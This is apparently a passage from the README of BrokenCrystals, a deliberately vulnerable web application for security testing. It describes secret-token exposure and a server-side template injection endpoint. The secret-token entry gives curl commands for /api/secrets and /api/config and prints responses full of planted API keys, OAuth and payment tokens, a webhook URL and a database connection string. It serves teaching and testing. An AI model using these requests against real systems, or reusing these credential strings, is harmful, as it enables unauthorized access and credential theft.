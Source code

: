     </details>

- **Secret Tokens** - The /api/secrets and /api/config contains many secret tokens returns the server's configuration, including a various of API keys.
    <details>
      <summary>Example Exploitation of Secret Tokens</summary>

      To demonstrate the exposure of secret tokens, you can use the following `curl` commands:

        ```bash
        curl https://brokencrystals.com/api/secrets
        ```

        Response:

        ```json
        {
          "codeclimate": "CODECLIMATE_REPO_TOKEN=62864c476ade6ab9d10d0ce0901ae2c211924852a28c5f960ae5165c1fdfec73",
          "facebook": "EAACEdEose0cBAHyDF5HI5o2auPWv3lPP3zNYuWWpjMrSaIhtSvX73lsLOcas5k8GhC5HgOXnbF3rXRTczOpsbNb54CQL8LcQEMhZAWAJzI0AzmL23hZByFAia5avB6Q4Xv4u2QVoAdH0mcJhYTFRpyJKIAyDKUEBzz0GgZDZD",
          "google_b64": "QUl6YhT6QXlEQnbTr2dSdEI1W7yL2mFCX3c4PPP5NlpkWE65NkZV",
          "google_oauth": "188968487735-c7hh7k87juef6vv84697sinju2bet7gn.apps.googleusercontent.com",
          "google_oauth_token": "ya29.a0TgU6SMDItdQQ9J7j3FVgJuByTTevl0FThTEkBs4pA4-9tFREyf2cfcL-_JU6Trg1O0NWwQKie4uGTrs35kmKlxohWgcAl8cg9DTxRx-UXFS-S1VYPLVtQLGYyNTfGp054Ad3ej73-FIHz3RZY43lcKSorbZEY4BI",
          "heroku": "herokudev.staging.endosome.975138 pid=48751 request_id=0e9a8698-a4d2-4925-a1a5-113234af5f60",
          "hockey_app": "HockeySDK: 203d3af93f4a218bfb528de08ae5d30ff65e1cf",
          "outlook": "https://outlook.office.com/webhook/7dd49fc6-1975-443d-806c-08ebe8f81146@a532313f-11ec-43a2-9a7a-d2e27f4f3478/IncomingWebhook/8436f62b50ab41b3b93ba1c0a50a0b88/eff4cd58-1bb8-4899-94de-795f656b4a18",
          "paypal": "access_token$production$x0lb4r69dvmmnufd$3ea7cb281754b7da7dac131ef5783321",
          "slack": "xoxo-175588824543-175748345725-176608801663-826315f84e553d482bb7e73e8322sdf3"
        }
        ```

        ```bash
        curl https://brokencrystals.com/api/config
        ```

        Response:

        ```json
        {
          "awsBucket": "https://neuralegion-open-bucket.s3.amazonaws.com",
          "sql": "postgres://bc:bc@postgres:5432/bc",
          "googlemaps": "AIzaSyD2wIxpYCuNI0Zjt8kChs2hLTS5abVQfRQ"
        }
        ```

        These responses reveal sensitive information, such as API keys, database connection strings, and other tokens, which should not be publicly accessible.

    </details>

- **Server-Side Template Injection (SSTI)** - The endpoint /api/render receives a plain text body and renders it using the doT (http://github.com/olado/dot) templating engine.
  <details><summary>Server-Side Template Injection (SSTI) Example Exploitation</summary></details>
